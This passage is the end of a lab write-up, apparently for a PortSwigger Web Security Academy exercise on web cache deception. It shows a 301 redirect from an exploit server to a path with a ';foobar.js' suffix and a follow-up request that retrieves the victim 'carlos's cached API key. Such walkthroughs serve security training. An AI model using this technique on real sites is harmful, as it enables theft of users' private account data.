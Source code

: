 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810153851.png)

Nice!

Now we can go to our exploit server, and change the response header to this:

```http
HTTP/1.1 301 Moved Permanently
Location: https://0a2f00fa047523c9809db26c00c4003d.web-security-academy.net/my-account;foobar.js
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810154001.png)

Then click button "Deliver exploit to victim". This will trick the victim to cache their API key response:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810154047.png)

Finally, send the following request to retrieve the cached response:

```http
GET /my-account;foobar.js HTTP/2
Host: 0a2f00fa047523c9809db26c00c4003d.web-security-academy.net


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810155422.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810155433.png)

We got `carlos`'s API key! Let's submit it to solve this lab!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810155451.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810155504.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Web-Cache-Deception/WCD-2/images/Pasted%20image%2020240810155514.png)

## Conclusion

What we've learned:

1. Exploiting path delimiters for web cache deception